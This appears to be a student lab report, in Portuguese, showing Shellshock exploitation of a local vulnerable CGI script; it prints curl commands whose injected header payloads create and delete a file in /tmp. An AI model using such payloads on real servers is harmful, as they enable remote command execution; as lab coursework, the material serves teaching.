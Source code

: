 # Module 2

-------
Grupo 5 

Ana Ferreira 45085

Gonçalo Fonseca 50185

Rúben Santos 49063

-------

# Parte A

## Exercise 2
### Ponto a) 

Neste exercício temos por objetivo criar um ficheiro dentro da pasta /tmp.

    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"touch /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

<center>
<img src="parte1_ex2_a_1.png" alt="drawing"/>
</center>

<center>Figura 1 - Criação de um ficheiro na pasta /tmp</center>

<br>

### Ponto b)
Ao contrário do ponto anterior, neste ponto temos por objetivo remover um ficheiro da pasta /tmp.

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/rm /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"rm /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

<center>
<img src="parte1_ex2_b_1.png" alt="drawing"/>
</center>
